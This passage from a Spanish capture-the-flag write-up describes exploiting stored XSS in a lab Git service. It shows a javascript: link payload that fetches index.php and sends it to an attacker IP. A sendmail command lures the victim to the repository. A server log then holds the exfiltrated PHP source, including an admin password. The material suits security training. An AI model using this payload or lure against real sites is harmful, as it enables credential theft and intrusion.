 Si **index.php** está presente en el repositorio, podría estar configurado para servir páginas dinámicas, contener información de otros archivos, etc. Explotando el XSS, podemos dirigir el navegador de Jobert a una página específica del repositorio, como la de `index.php`, y desde ahí intentar inyectar código o exfiltrar datos adicionales.

Por lo tanto, el siguiente paso sería verificar si **index.php** existe en la ruta mencionada, ya que esto nos brindaría más oportunidades para **profundizar en la explotación** de la vulnerabilidad y obtener información adicional o incluso ejecutar código remoto.

Crearemos un nuevo repositorio que haga la exfiltración del archivo `index.php` hacía nuestro servidor de atacante.

```javascript
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.16.5/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">gzzcoo</a>
```

<figure><img src="../../.gitbook/assets/imagen (306).png" alt=""><figcaption></figcaption></figure>

Nuevamente volveremos a enviar un correo a `jobert@localhost` para que visualice nuestro repositorio que contiene el payload malicioso.

```bash
axel@cat:~$ echo -e "Subject: Repo \n\nHi check my repo http://localhost:3000/axel/gzzcoo" | sendmail jobert@localhost
```

Verificamos en nuestro servidor web que recibimos nuevamente datos, en este caso, de la página `index.php`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Feb/2025 03:47:07] "GET /?response=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```
